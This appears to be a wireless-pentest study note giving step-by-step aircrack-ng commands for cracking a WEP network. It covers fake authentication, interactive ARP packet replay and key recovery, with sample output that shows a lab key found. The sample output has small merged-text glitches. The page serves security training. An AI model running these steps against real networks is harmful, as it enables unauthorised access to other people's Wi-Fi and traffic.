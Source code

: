 #  Interactive Packet Replay - (Attacking a Connected Client) (WEP)

This attack allows you to choose a specific packet for replaying (injecting). The attack can obtain packets to replay from two sources. The first being a live flow of packets from your wireless card. The second being from a pcap file. Standard Pcap format (Packet CAPture, associated with the libpcap library http://www.tcpdump.org), is recognized by most commercial and open-source traffic capture and analysis tools. Reading from a file is an often overlooked feature of aireplay-ng. This allows you read packets from other capture sessions or quite often, various attacks generate pcap files for easy reuse. A common use of reading a file containing a packet your created with packetforge-ng.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the interactive attack against the client and wait
sudo aireplay-ng --interactive -b $BSSID -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 $INTERFACE
```
* View output. This is a candidate ARP packet to be used for injection.

```
No source MAC (-h) specified. Using the device MAC (00:C0:CA:B2:96:E3)
Read 171 packets...

        Size: 86, FromDS: 1, ToDS: 0 (WEP)

              BSSID  =  00:9F:A9:24:B9:28
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  10:9F:A9:24:B9:25

        0x0000:  0842 0000 ffff ffff ffff 009f a924 b928  .B...........$.(
        0x0010:  109f a924 b925 e0fc b18f 0500 0991 2b11  ...$.%........+.
        0x0020:  b707 3a2c 50b7 4f19 3098 3cd4 9e38 21cb  ..:,P.O.0.<..8!.
        0x0030:  559c d938 d229 04db 45d8 a4b7 85fe 6634  U..8.)..E.....f4
        0x0040:  4a7d 5996 5822 817e 2b7a 0c12 0326 0661  J}Y.X".~+z...&.a
        0x0050:  cd3e 57e8 9d1f                           .>W...

Use this packet ?

# Say yes and monitor the data ... it should be getting big.
# If not, then ctrl-c ... try another
# Keep doing until the data starts to increase
```

```bash
# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* Look for the suscessful output - assuming enough IVs are available

```
Reading packets, please wait...
Opening wifu-01.cap
Read 806868 packets.

   #  BSSID              ESSID                     Encryption

   1  00:9F:A9:24:B9:28  wifu                      WGot 184612 out of 180000 IVsStarting PTW attack with 184612 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

### Using an Existing AP Packet

```bash
# Use an existing AP packet file
sudo aireplay-ng --interactive -r replay_src-0613-135427.cap $INTERFACE
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Interactive Packet Replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

